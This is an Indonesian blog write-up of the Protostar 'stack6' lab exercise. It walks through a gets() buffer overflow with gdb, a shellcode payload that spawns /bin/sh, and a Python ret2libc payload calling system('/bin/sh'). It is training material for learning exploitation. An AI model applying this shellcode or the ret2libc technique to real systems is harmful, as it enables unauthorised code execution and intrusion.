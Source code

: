 ```yaml
---
layout: post
title: "Protostar: stack6"
date: 2020-08-27 20:05:03 +0700
categories: [reversing, protostar]
---
```


Melanjutkan ke stack6. Mari kita mulai dengan memeriksa stack6 dengan utilitas `file`.

output:
![output file stack6](/images/protostar-stack6-1.png)

Karena tidak ada perbedaan dengan sebelmunya mari kita lanjut melihat source codenya.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

Jika dibandingkan dengan [stack5](/belajar-reversing-protostar-stack5) kali ini fungsi gets dimasukkan pada fungsi tersendiri dengan nama getpath. Didalam fungsi getpath terdapat pemanggilan fungsi yang tampak asing yaitu **fflush** dan **\_\_builtin_return_address**. Jika kita lihat manual dari kedua fungsi tersebut.

```bash
man flush
```

output:
![man flush](/images/protostar-stack6-2.png)

Fungsi flush ini sepertinya dapat kita abaikan. Sekarang kita lihat untuk fungsi \_\_builtin_return_address. Disini saya mencari manualnya dari google karena tidak dapat menemukannya secara local.

![manual builtin_return_address](/images/protostar-stack6-3.png)

Dapat dibaca pada paragraf pertama yang saya tandai, berdasarkan [https://gcc.gnu.org/onlinedocs/gcc/Return-Address.html](https://gcc.gnu.org/onlinedocs/gcc/Return-Address.html) fungsi ini mengembalikan return address dari fungsi yang sedang dijalankan. Dengan kata lain fungsi tersebut akan mengembalikan isi dari eip. Berdasarkan source codenya kembalian dari fungsi ini akan disimpan dalam variabel lokal ret. Kemudian akan dilakukan pengecekan, address pada variabel ret akan di **_and_** kan (and merupakan operasi bitwise) dengan **0xbf000000** jika menghasilkan **0xbf000000** kondisi akan terpenuhi dan kita gagal. Jika kalian ingin mengetahui lebih lanjut soal operasi bitwise silahkan dibaca [disini](https://en.wikipedia.org/wiki/Bitwise_operation#AND), disini akan saya sederhanakan saja. Kondisi akan terpenuhi jika eip memiliki return address 0xbfxxxxxx dimana x dapat berupa bilangan heksadesimal apa saja.

Mari kita kerjakan terlebih dahulu stack6 ini dengan metode yang sama dengan stack5. Kita load ke gdb dan cari offsetnya.

```bash
gdb -q stack6
set disassembly-flavor intel
disas getpath
b *0x080484af
r //masukkan 100 karakter Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

Kita load stack6 ke gdb dalam mode quiet. Atur disassembly dalam mode intel. Melakukan disassembly pada fungsi getpath. Meletakkan breakpoint pada instruksi setelah pemanggilan fungsi gets. Setelah itu kita jalankan dan masukkan input 100 karakter yang kita dapatkan dari [sini](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html).

output:
![mencari offset dengan gdb](/images/protostar-stack6-4.png)

Selanjutnya kita tinggal melihat isi eip untuk mengetahui ukuran offset.

```
info frame
x/s 0xbffff7ac
```

ouput:
![masih mencari offset dengan gdb](/images/protostar-stack6-5.png)

![masih mencari offset dengan gdb](/images/protostar-stack6-6.png)

Didapatkan offset 80. Kita buat payloadnya dengan sesi ssh baru seperti pada [stack5](/belajar-reversing-protostar-stack5) dengan perubahan pada besar offset dan lokasi return address.

```bash
python -c "print( 'A' * 80 + '\xd0\xf7\xff\xbf' + '\x90'* 60 + '\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68')"  > /tmp/payload
```

**0xbffff7d0** didapatkan dari menambahkan eip dengan 4byte. Sekarang kita jalankan lagi dalam gdb dengan payload yang telah kita buat.

```bash
r < /tmp/payload
```

ouput:
![jalankan dengan injeksi shellcode](/images/protostar-stack6-7.png)

Jeng jeng jeng... return address yang kita gunakan 0x**bf**fff7d0 memenuhi kondisional dan jika kita periksa ulang alamat dari stack.

```bash
r < /tmp/payload
x/100x 0xbffff7ac
```

output:
![isi stack](/images/protostar-stack6-8.png)

Dapat dipastikan bahwa kita tidak bisa menggunakan alamat stack sebagai return address. Berdasarkan [halaman resmi dari stack6](http://exploit.education/protostar/stack-six/) kita dapat menyelesaikan stack6 ini dengan 3 pendekatan:

- finding the duplicate of the payload
- ret2libc
- return orientated programming

Dari ketiga pendekatan diatas kita akan menggunakan ret2libc. **ret2libc** atau **return-to-libc** adalah serangan keamanan komputer yang biasanya dimulai dengan buffer overflow di mana alamat pengembalian subrutin pada call stack (eip) diganti dengan alamat subrutin yang sudah ada dalam memori proses, melewati fitur keamanan bit no-eksekusi (jika ada ) dan menghilangkan kebutuhan penyerang untuk memasukkan kode(shellcode) mereka sendiri -[wikipedia](https://en.wikipedia.org/wiki/Return-to-libc_attack). Dengan kata lain kita tidak perlu memasukkan shellcode pada stack, kita cukup melakukan pemanggilan fungsi yang sudah ada dalam proses yang dapat memberikan kita akses ke shell. Libc sendiri merupakan library yang sangat umum digunakan pada sistem operasi linux. Didalam libc terdapat beberapa fungsi yang dapat memberikan akses shell, salah satunya ialah fungsi system.

```bash
man system
```

output:
![output man system](/images/protostar-stack6-9.png)

Sebelum memulai membuat payload terlebih dahulu kita harus mengetahui bagaimana fungsi dipanggil dan argumen diberikan pada fungsi dengan membacanya pada halaman wikipedia [berikut ini](https://en.wikipedia.org/wiki/X86_calling_conventions) atau pada blog pak Yohanes [disini](https://yohan.es/security/buffer-overflow/basic-stack-overflow/).

Secara sederhana saat fungsi dipanggil, argumen/parameter yang diperlukan oleh fungsi tersebut akan dipush ke stack. Disusul oleh address instruksi setelah pemanggilan fungsi, address ini akan disimpan dalam eip agar saat fungsi selesai dieksekusi dapat melanjutkan kembali ke instruksi selanjutnya. Pada teknik ret2libc ini kita akan memanfaatkan fungsi system, fungsi ini membutuhkan argumen yang dalam kasus kita argumen tersebut adalah _/bin/sh_. Berbekal sedikit pengetahuan mengenai calling convention pada x86 kita akan membuat payload yang jika diilustrasikan kurang lebih seperti berikut.

![ilustrasi payload](/images/protostar-stack6-10.png)

Kita akan memenuhi buffer dan ebp dengan karakter 'A'. Pada eip kita akan memasukkan address dari fungsi system diikuti dengan address fungsi exit (sebagai return address/eip dari fungsi system). Bagian terakhir ialah '/bin/sh' sebagai argumen yang dibutuhkan oleh fungsi system.

Address fungsi system dan exit dapat dicari dengan perintah `print` pada gdb. Pastikan sebelumnya kalian telah menjalankan stack6 pada gdb.

```bash
r //jalankan stack6 paling tidak sekali
print system
print exit
```

output:
![alamat fungsi system dan exit](/images/protostar-stack6-11.png)

Sebagai argumen/parameter untuk fungsi system, string '/bin/sh', dapat kita cari dalam libc atau memasukkan secara manual melalui environment variable. Kita akan menggunakan yang sudah tersedia dalam libc. Untuk mencarinya sebenarnya bisa dengan perintah find pada gdb namun sayang sekali saya tidak berhasil sehingga saya menggunakan utilitas `strings` yang tersedia pada protostar. Terlebih dahulu cari libc yang digunakan oleh stack6.

```bash
info proc map
```

output:
![libc yang digunakan oleh stack6](/images/protostar-stack6-12.png)

libc yang digunakan oleh stack6 ialah yang saya highlight pada screenshot diatas, _/lib/libc-2.11.2.so_ dan diload pada address 0xb7e97000. Sekarang pindah pada sesi ssh lain dan gunakan perintah berikut untuk mencari lokasi string '/bin/sh'.

```bash
strings -t x -a /lib/libc-2.11.2.so | grep /bin/sh
```

Gunakanlah `man strings` untuk mengetahui fungsi dari argumen yang saya gunakan.

output:
![lokasi string /bin/sh pada libc](/images/protostar-stack6-13.png)

- system : 0xb7ecffb0
- exit : 0xb7ec60c0
- '/bin/sh' : 0x0011f3bf + 0xb7e97000 (strings mencari pada libc yang dimulai dari address 0x0, sehingga perlu ditambahkan dengan 0xb7e97000, address libc mulai di load pada stack6)

Dengan ketiga informasi address diatas, beserta offset yang kita cari diawal, kita sudah dapat membuat payload. Disini saya menggunakan bantuan python dengan module struct agar tidak perlu menerjemahkan address ke little endian secara manual. Buatlah script python baru pada directory /tmp/ , saya menggunakan text editor nano dan menyimpannya dengan nama payload.py.

```bash
nano /tmp/payload.py
```

Berikut kode payloadnya.

```python
import struct

offset=80*"A" #padding
system=struct.pack("<I", 0xb7ecffb0) #(eip)return ke system
exit=struct.pack("<I", 0xb7ec60c0) #return address setelah system dieksekusi
args=struct.pack("<I", 0xb7e97000 + 0x11f3bf) #argumen untuk system
print(offset+system+exit+args)
```

struct.pack digunakan untuk mengubah alamat hexadesimal menjadi dalam format lain, dalam hal ini dalam little endian (<I). Simpan dengan ctrl+x.

![buat payload dengan nano](/images/protostar-stack6-14.png)

Sekarang kita keluar gdb dan jalankan stack6 dengan payload baru.

```bash
python /tmp/payload.py > /tmp/payload
(cat /tmp/payload; cat) | ./stack6
```

output:
![eksekusi stack6 dengan payload baru](/images/protostar-stack6-15.png)

Berhasil! Kita mendapatkan shell, namun shell tersebut tidak mendapatkan akses root karena fungsi system mendrop privileges dari root. Gunakanlah fungsi lain yang sifatnya tidak mendrop privileges jika ingin mendapatkan akses root.
